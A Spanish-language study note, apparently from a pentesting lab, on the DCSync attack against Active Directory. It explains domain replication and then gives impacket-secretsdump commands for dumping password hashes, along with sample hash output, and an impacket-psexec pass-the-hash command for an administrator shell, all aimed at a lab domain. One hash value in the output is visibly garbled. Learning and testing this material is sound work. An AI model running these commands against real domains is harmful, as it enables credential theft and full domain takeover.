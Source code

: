 -----
- Tags: #ataque #teoria #practica #windows 
-----
# DCsync Attack
Permite al atacante simular el comportamiento del Domain Controller 
##### ( #DC ) y recuperar datos de conraseñas a través de replicación de domino. 

Proceso: 

- ##### El atacante descubre el domain controller para solicitar la replicación.
- ##### El atacante solicita la replicación de usuarios mediante #GetNCChangesolic 
- ##### El DC retorna la respuesta, inluyendo los hashes de las contraseñas de los usuarios. 

##### Muchas veces la infraestructura de las organizaciones necesita más de un #DC, para el #AD. Para mantener la choerencia de un entorno con más de un DC , es necesario que los objetos de AD se repliquen a través de esos DC. 
##### La mayoria de las tareas relacionadas con la replicación se especifican en el Protocolo remoto de Serivico de replicación de directorios. 

## Explotación 

##### Cuando un usuario posee los permisos de GetChanges y GetChangesAll podrá realizar una replicación de dominio, de esta manera podemos usar herramientas como impacket para obtener los hashes de las contraseñas de los usuarios...

```shell
impacket-secretsdump {domain}/{user}@{target_ip}

# Ejemplo 
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/userx@10.10.10.175
# Esto realizara la replicación y nos arrojara algo como lo siguiente: 
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ffjava802229e466e2c:::
# En donde podemos ver los hashes de las contraseñas de los usuarios, por ejemplo, el hash de la password de el usuario Administrator es "823452073d75b9d1cf70ebdf86c7f98e", 
```

##### Teniendo el hash de la contraseña del usuario, podemos utlizar la herramienta "impacket-psexec" (Herramienta de línea de comandos que permite a los admins de sistemas ejecutar comandos), para solicitar un consola interactiva:

```shell
impacket-psexec {domain}/{user}@{target_ip} cmd.exe --hashes :{hash}
# Esto nos arrojaria una consola interactiva con permisos de administrador

# Ejemplo 
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 cmd.exe --hashes :823452073d75b9d1cf70ebdf86c7f98e

```
